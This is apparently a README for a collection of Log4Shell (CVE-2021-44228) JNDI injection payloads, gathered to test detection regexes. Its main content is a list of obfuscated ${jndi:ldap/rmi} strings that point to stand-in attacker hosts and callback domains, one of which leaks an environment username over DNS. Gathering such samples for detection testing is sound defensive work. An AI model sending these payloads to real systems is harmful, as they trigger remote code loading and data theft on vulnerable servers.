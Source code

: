 The goal is to allows testing detection regexes defined in protection systems.

## Sources & credits

* https://twitter.com/h4x0r_dz/status/1469663187079417857/photo/1
* https://twitter.com/ymzkei5/status/1469765165348704256
* https://twitter.com/sirifu4k1/status/1469524530255511552
* https://twitter.com/BountyOverflow/status/1470001858873802754
* https://twitter.com/entropyqueen_/status/1469961345848299520
* https://twitter.com/anthrax0/status/1470276303773663233
* https://twitter.com/log4j2rce/status/1469799982630944770
* https://twitter.com/11xuxx/status/1471236310299906050
* https://github.com/projectdiscovery/nuclei-templates/pull/3334/files
* https://github.com/PortSwigger/log4shell-scanner/blob/master/src/main/kotlin/burp/BurpExtender.kt#L70
* https://github.com/Puliczek/CVE-2021-44228-PoC-log4j-bypass-words/blob/main/src/main/java/log4j.java
* https://github.com/tangxiaofeng7/BurpLog4j2Scan/blob/master/src/main/java/burp/BurpExtender.java#L84
* https://github.com/fullhunt/log4j-scan/blob/master/log4j-scan.py#L52
* https://github.com/takito1812/log4j-detect/blob/main/log4j-detect.py#L9
* https://docs.google.com/document/d/15V4EmDcOl4Mog5-If-Mv3-ZoRcf9-RsGSWlqYte3zho/edit
* https://www.cyberkendra.com/2021/12/log4shell-advisory-resource-cheat-sheet.html
* https://blog.talosintelligence.com/2021/12/apache-log4j-rce-vulnerability.html

## Value collections

* https://github.com/Neo23x0/log4shell-detector/tree/main/tests/test-cases
* https://github.com/whwlsfb/Log4j2Scan/tree/master/src/main/java/burp/poc/impl

## Values gathered

> When a source was not an image then values provided were added to the list below.

Note that `:/` instead of `://` is effective too.

```text
${j${k8s:k5:-ND}i${sd:k5:-:}ldap://mydogsbutt.com:1389/o}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://1234.${hostName}.com}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attacker_controled_website/payload_to_be_executed}
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://somesitehackerofhell.com/z}
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://127.0.0.1:1389/ass}
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://attacker_controled_website/payload_to_be_executed}
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://{{callback_host}}/{{random}}},
${${::-j}nd${::-i}:
${${::-j}ndi:
${${::-j}ndi:dns://${env:USERNAME}.c6roi3ia89k5kj1mes60cg5a1doyyyyyn.interactsh.com}
${${::-j}ndi:rmi://127.0.0.1:1389/ass}
${${::-j}ndi:rmi://{{callback_host}}/{{random}}},
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//somesitehackerofhell.com/z}
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}attacker_controled_website/payload_to_be_executed}
${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//your.burpcollaborator.net/a}
${${env:TEST:-j}ndi${env:TEST:-:}${env:TEST:-l}dap${env:TEST:-:}attacker_controled_website/payload_to_be_executed}
${${lower:${lower:jndi}}:${lower:rmi}://a.s.d/poc}
${${lower:${lower:jndi}}:${lower:rmi}://{{callback_host/{{random}}},
${${lower:jndi}:${lower:rmi}://dslepf.dnslog.cn/tem}
${${lower:jndi}:${lower:rmi}://q.w.e/poc}
${${lower:jndi}:${lower:rmi}://{{callback_Host}}/{{random}}},
${${lower:jnd}${lower:${upper:ı}}:ldap://...}
```